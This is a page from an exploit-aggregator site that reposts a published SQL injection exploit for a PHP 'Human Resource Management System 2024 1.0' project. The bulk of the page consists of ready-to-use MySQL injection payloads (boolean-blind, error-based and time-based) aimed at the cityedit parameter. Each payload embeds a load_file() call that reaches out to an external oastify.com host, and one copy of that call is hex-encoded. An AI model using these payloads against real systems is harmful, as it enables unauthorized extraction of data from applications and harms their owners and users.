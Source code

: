 ```yaml
---
title: Human Resource Management System 2024 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177946&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-04-06
fetch_date: 2025-10-04T12:14:41.578595
---
```


# Human Resource Management System 2024 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Human Resource Management System 2024 1.0 SQL Injection

2024-04-05 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177946
## Title: hrm2024.1.0-Multiple-SQLi
## Author: nu11secur1ty
## Date: 04/02/2024
## Vendor: https://github.com/oretnom23
## Software: https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The cityedit parameter appears to be vulnerable to SQL injection
attacks. The payload '+(select
load_file('\\\\rjedhdhfj6b3j1usj0eoiix43v9oxklbozfm5au.oastify.com\\eii'))+'
was submitted in the cityedit parameter. This payload injects a SQL
sub-query that calls MySQL's load_file function with a UNC file path
that references a URL on an external domain. The application
interacted with that domain, indicating that the injected SQL query
was executed.
The attacker can get all information from the system by using this
vulnerability!

STATUS: HIGH- Vulnerability

[+]Payload:
```mysql
---
Parameter: cityedit (GET)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
Payload: cityedit=22'+(select
load_file('\\\\rjedhdhfj6b3j1usj0eoiix43v9oxklbozfm5au.oastify.com\\eii'))+''
RLIKE (SELECT (CASE WHEN (1759=1759) THEN 0x3232+(select
load_file(0x5c5c5c5c726a6564686468666a3662336a3175736a30656f696978343376396f786b6c626f7a666d3561752e6f6173746966792e636f6d5c5c656969))+''
ELSE 0x28 END)) AND 'GMzs'='GMzs

Type: error-based
Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: cityedit=22'+(select
load_file('\\\\rjedhdhfj6b3j1usj0eoiix43v9oxklbozfm5au.oastify.com\\eii'))+''
OR (SELECT 8880 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT
(ELT(8880=8880,1))),0x7178626271,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'qJHK'='qJHK

Type: time-based blind
Title: MySQL > 5.0.12 AND time-based blind (heavy query)
Payload: cityedit=22'+(select
load_file('\\\\rjedhdhfj6b3j1usj0eoiix43v9oxklbozfm5au.oastify.com\\eii'))+''
AND 2124=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A,
INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR
1) AND 'Jtnd'='Jtnd
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2024/hrm-2024.1.0)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2024/04/hrm202410-multiple-sqli.html)

## Time spent:
01:15:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)